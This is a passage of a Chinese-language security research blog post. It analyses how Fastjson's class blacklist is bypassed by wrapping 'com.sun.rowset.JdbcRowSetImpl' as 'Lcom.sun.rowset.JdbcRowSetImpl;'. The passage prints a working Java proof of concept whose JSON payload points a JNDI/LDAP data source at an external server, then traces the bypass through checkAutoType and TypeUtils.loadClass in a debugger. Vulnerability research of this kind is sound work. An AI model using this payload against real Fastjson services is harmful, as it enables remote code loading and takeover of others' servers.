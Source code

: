 ![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/FailedEXP01.png)

看到这里，黑名单里面，被 ban 了。

看了别人的 payload，意思是简单绕过，既然 sun 包里面的这个 `JdbcRowSetImpl` 类被 ban 了，尝试在 `com.sun.rowset.JdbcRowSetImpl` 前面加一个 L，结尾加上 `;` 绕过

- 然后开启 `AutoTypeSupport`

EXP 如下

JAVA

```
import com.alibaba.fastjson.JSON;  
import com.alibaba.fastjson.parser.ParserConfig;  
  
public class SuccessBypassEXP {  
    public static void main(String[] args) {  
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);  
 String payload ="{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"ldap://127.0.0.1:1234/ExportObject\",\"autoCommit\":\"true\" }";  
 JSON.parse(payload);  
 }  
}
```

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/Success1241.png)

### 调试分析

我们注意到，PoC和之前的不同之处在于在”`com.sun.rowset.JdbcRowSetImpl`”类名的前面加了”`L`”、后面加了”`;`”就绕过了黑名单过滤。

下面我们调试分析看看为啥会绕过。首先要知道一点，`Lcom.sun.rowset.JdbcRowSetImpl;` 这个类其实是不存在的。

- 断点下在 `ParseConfig` 的 `checkAutoType()` 方法

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/checkAutoTypeDebug.png)

开始调试，先一路进到这个地方，就是我们前文所说的黑名单了。

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/denyListDebug.png)

继续往里走，它会判断我们 `@type` 类是否为黑名单那里面的类。这里会循环很久，可以直接跳出来，继续往下走。

然后会走到一个特别重要与核心的方法 ————
`loadClass()`，它隶属的类是 `TypeUTtils`

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/TypeUtils.png)

往下走，有一步语句非常非常关键。

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/replaceBypass.png)

意思是，如果我们这个类的起始是 `L`，结尾是 `;`，就把这两个家伙给干掉，变成空白，所以这里返回过来的就是 `com.sun.rowset.JdbcRowSetImpl` 了，就可以进行我们的恶意利用，这个代码写出来也是有点……
